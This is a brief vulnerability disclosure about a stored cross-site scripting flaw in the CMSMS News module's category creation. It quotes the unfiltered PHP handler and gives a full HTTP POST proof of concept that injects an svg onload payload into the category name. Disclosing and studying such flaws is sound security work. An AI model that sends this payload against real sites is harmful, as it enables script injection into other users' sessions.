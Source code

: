 One day I felt like reviewing the source code of some random CMS and I picked CMSMS. This is totally random and I did this to kill boredom.

Stored XSS

In Setting-New module,you can add category,there is no XSS filtering, resulting in storage-type XSS generation. 
file modules/New/action.addcategory.php,line10~line29.  
    ```` 
    $name = trim($params['name']);
    //if( $parent == 0 ) $parent = -1;
    $name = trim($params['name']);
    if ($name != '') {
    $query = 'SELECT news_category_id FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ? AND news_category_name = ?';
    $tmp = $db->GetOne($query,array($parent,$name));
    if( $tmp ) {
    echo $this->ShowErrors($this->Lang('error_duplicatename'));
    }
    else {
    $query = 'SELECT max(item_order) FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ?';
    $item_order = (int)$db->GetOne($query,array($parent));
    $item_order++;
    $catid = $db->GenID(CMS_DB_PREFIX."module_news_categories_seq");
    $query = 'INSERT INTO '.CMS_DB_PREFIX.'module_news_categories (news_category_id, news_category_name, parent_id, item_order, create_date, modified_date) VALUES (?,?,?,?,NOW(),NOW())';
    $parms = array($catid,$name,$parent,$item_order);
    $db->Execute($query, $parms);

    ````  
The parameter name insert into the database without filtering。

## POC  
    ````
    POST /admin/moduleinterface.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 143
    Referer: http://127.0.0.1/
    Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
    mact=News%2Cm1_%2Caddcategory%2C0&_sk_=98cf4d97037a4df557b&m1_name=%3Csvg%2F+onload%3Dalert%281%29%3E&m1_parent=-1&m1_submit=%E6%8F%90%E4%BA%A4
    
    ````
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/94376829.jpg)
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/48134010.jpg)
    
    
